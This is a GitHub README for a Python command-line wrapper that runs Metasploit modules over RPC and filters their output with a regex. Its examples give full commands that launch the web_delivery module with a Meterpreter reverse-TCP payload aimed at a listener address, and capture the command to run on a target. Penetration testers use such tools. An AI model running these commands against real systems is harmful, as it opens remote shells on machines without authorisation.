 # MSF Module Executor

This project provides a command-line interface (CLI) tool built in Python that interacts with the Metasploit Framework using the `pymetasploit3` library. The tool allows you to dynamically run any Metasploit module, set options, and filter output based on a regular expression.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
  - [Basic Usage](#basic-usage)
  - [Advanced Usage](#advanced-usage)
- [Arguments](#arguments)
- [Examples](#examples)
- [Logging and Error Handling](#logging-and-error-handling)
- [License](#license)

## Installation

### Prerequisites

1. **Python 3.6+** is required.
2. **Metasploit Framework** installed on a host.
3. **Metasploit RPC Server** running and configured to allow connections.

### Setting Up the Environment

1. Clone the repository:

    ```bash
    git clone https://github.com/your-username/msf-module-executor.git
    cd msf-module-executor
    ```

2. Install the required Python packages:

    ```bash
    pip install pymetasploit3 argparse
    ```

## Usage

### Basic Usage

To run an exploit with the tool, specify the Metasploit module and options:

```bash
python3 metasploit_runner.py <module> --option <OPTION=VALUE> [...] --rpc-server <RPC_SERVER> --rpc-port <RPC_PORT>
```

### Advanced Usage

You can also filter the output using a regular expression:

```bash
python3 metasploit_runner.py <module> --option <OPTION=VALUE> [...] --regex "<REGEX_PATTERN>" --rpc-server <RPC_SERVER> --rpc-port <RPC_PORT>
```

### Arguments

- `<module>`: The Metasploit module to use, e.g., `exploit/multi/script/web_delivery`.
- `--option <OPTION=VALUE>`: Specify options for the module in `OPTION=VALUE` format. Multiple `--option` arguments can be passed.
- `--msf-password <PASSWORD>`: The password for the Metasploit RPC server (default: `msfrpc`).
- `--rpc-server <RPC_SERVER>`: The IP address or hostname of the Metasploit RPC server (default: `127.0.0.1`).
- `--rpc-port <RPC_PORT>`: The port on which the Metasploit RPC server is listening (default: `55552`).
- `--regex <REGEX_PATTERN>`: A regex pattern to filter the output. If not provided, the default pattern captures commands for the target machine.

## Examples

### Run a Basic Exploit

```bash
python3 metasploit_runner.py exploit/multi/script/web_delivery --option LHOST=10.192.0.3 --option LPORT=4450 --option SRVHOST=0.0.0.0 --option SRVPORT=8090 --option URIPATH=/mypayload --option payload=python/meterpreter/reverse_tcp --rpc-server 10.192.0.3 --rpc-port 55552
```

### Filter Output with a Custom Regex

```bash
python3 metasploit_runner.py exploit/multi/script/web_delivery --option LHOST=10.192.0.3 --option LPORT=4450 --option SRVHOST=0.0.0.0 --option SRVPORT=8090 --option URIPATH=/mypayload --option payload=python/meterpreter/reverse_tcp --regex "Run the following command on the target machine:\n(.*)" --rpc-server 10.192.0.3 --rpc-port 55552
```

## Logging and Error Handling

- **Logging**: The script logs detailed information about each step, including connection setup, option setting, and command execution.
- **Error Handling**: The script includes error handling for common issues such as connection failures to the Metasploit RPC server.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.
